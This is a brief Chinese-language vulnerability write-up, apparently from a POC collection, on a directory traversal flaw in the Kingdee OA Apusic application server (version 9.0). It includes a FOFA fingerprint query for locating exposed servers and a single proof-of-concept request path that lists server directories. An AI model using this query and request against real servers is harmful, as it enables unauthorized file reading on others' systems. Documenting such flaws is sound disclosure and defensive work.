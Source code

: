 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

```
金蝶OA 9.0 Apusic应用服务器(中间件)
```

## 网络测绘

```
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
```

## 漏洞复现

登录页面

![image-20220520142557418](images/202205201425611.png)

验证POC

```
/admin/protected/selector/server_file/files?folder=/
```

![image-20220520142704544](images/202205201427636.png)